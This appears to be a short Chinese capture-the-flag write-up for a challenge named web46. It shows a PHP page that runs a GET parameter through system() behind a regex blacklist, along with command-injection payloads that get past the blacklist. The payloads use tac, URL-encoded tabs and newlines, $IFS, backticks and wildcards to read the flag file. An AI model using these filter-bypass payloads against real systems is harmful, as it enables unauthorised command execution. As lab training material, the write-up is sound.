 ```
tac%09fl*%0a

or

tac%09f*||

or

echo$IFS`tac$IFS*`%0A

...
//记得转url编码
```

#### web46

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

 过滤有点多啊

> \;|cat|flag| |[0-9]|\\$|\*

但是事实上我们上题使用的方法并不会受到影响，因为%09是url编码，不会被当成数字过滤

```
tac%09fl*%0a

or

tac%09f*||

or

tac<f*||

//记得转url编码
```
